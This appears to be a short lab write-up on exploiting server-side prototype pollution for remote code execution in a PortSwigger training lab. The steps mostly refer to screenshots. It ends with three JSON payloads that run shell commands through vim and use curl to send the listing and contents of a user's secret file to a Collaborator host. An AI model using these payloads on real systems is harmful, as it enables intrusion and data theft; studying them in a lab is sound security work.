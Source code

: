 
1. Send the following request to become admin;

![](Pasted_image_20231210203256.png)


2. Execute the following payload, at the same request to trigger the RCE

![](Pasted_image_20231210203430.png)

2. Go to ` Completed Maintenance Jobs` at the admin painel;

![](Pasted_image_20231210204519.png)

3. Execute the same request but now with the following payload;

![](Pasted_image_20231210204422.png)


![](Pasted_image_20231210204655.png)

4. Get the secret from carlos;

![](Pasted_image_20231210204738.png)
![](Pasted_image_20231210204845.png)
![](Pasted_image_20231210204829.png)

![](Pasted_image_20231210204838.png)


### Misc Payloads 


```json
"__proto__": { "shell":"vim", "input":":! curl https://YOUR-COLLABORATOR-ID.oastify.com\n" }

```

```json
"input":":! ls /home/carlos | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"

```

```json
"input":":! cat /home/carlos/secret | base64 | curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"

```